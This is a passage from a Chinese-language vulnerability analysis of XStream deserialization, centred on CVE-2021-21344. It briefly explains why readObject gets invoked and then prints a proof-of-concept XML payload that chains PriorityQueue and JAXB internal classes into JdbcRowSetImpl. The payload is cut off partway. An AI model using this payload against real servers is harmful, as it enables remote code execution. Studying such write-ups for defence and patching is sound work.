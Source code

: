 会发现执行过程中居然调用了我们重写的readObject方法，此时的调用链如下

![](https://images.seebug.org/content/images/2021/04/06/1617677140000-5.png-w331s)

既然会调用readObject方法的话，那此时我们的思路应该就很清晰了，只需要找到一条利用链，就可以尝试进行反序列化攻击了

2\. CVE-2021-21344
------------------

下面是漏洞相关POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                  <javax.sql.rowset.BaseRowSet>
                    <default>
                      <concurrency>1008</concurrency>
                      <escapeProcessing>true</escapeProcessing>
                      <fetchDir>1000</fetchDir>
                      <fetchSize>0</fetchSize>
                      <isolation>2</isolation>
```